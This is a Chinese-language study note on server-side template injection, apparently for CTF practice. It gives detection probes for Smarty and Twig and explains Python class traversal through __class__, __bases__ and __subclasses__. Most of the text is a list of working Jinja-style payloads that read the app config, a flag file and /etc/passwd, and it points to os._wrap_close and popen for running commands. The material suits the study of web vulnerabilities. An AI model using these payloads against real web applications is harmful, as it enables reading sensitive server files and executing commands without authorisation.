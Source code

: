 # 学习笔记
## SSTI模板注入的检测
<font style="color:rgb(77, 77, 77);">发送类似下面的</font><font style="color:rgb(78, 161, 219) !important;">payload</font><font style="color:rgb(77, 77, 77);">，不同模板语法有一些差异</font>

```php
smarty=Hello ${7*7}
Hello 49
twig=Hello {{7*7}}
Hello 49
```

<font style="color:rgb(77, 77, 77);">检测到模板注入漏洞后，需要准确识别模板引擎的类型。神器Burpsuite 自带检测功能，并对不同模板接受的 payload 做了一个分类，并以此快速判断模板引擎：</font>

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1737868393845-e55dd636-cd32-4c34-8df8-36500343ced7.png)

## <font style="color:#000000;">SSTI模板注入思路</font>
<font style="color:rgb(77, 77, 77);">获取内置类所对应的类</font>

```php
(__class__)
```

<font style="color:rgb(77, 77, 77);">拿到object基类（面向对象都有一个基类</font>

```php
__bases__<class 'object'>
```

<font style="color:rgb(77, 77, 77);">获取子类列表</font>

```php
__subclasses__()
```

<font style="color:rgb(77, 77, 77);">在子类中找到可以getshell的类</font>

## SSTI模板注入漏洞常用payload
### 无过滤情况
<font style="color:rgb(77, 77, 77);">1、直接使用system、cat等命令进行远程代码执行</font>

<font style="color:rgb(77, 77, 77);">2、使用</font>

```php
\#**简单查找具体python类的索引：**
import os
print(''.__class__.__bases__[0].__subclasses__().index(os._wrap_close))


\#读取config
如果flag写入config内，那么可以直接{{config}}查看或者{{self.dict._TemplateReference__context.config}}

\#读取文件类，<type ‘file’> file位置一般为40，直接调用
{{[].__class__.__base__.__subclasses__()[40]('flag').read()}} 
{{[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').read()}}
{{[].__class__.__bases__[0].__subclasses__()[40]('etc/passwd').readlines()}}
{{[].__class__.__base__.__subclasses__()[257]('flag').read()}} (python3)

\#直接使用popen命令，python2是非法的，只限于python3
！！！！！！！！
**os._wrap_close** 类里有popen和builtins,一般位置为132~139附近
<class ‘site._Printer’> 调用os的popen执行命令
<class ‘warnings.catch_warnings’>一般位置为59，可以用它来调用file、os、eval、commands等

```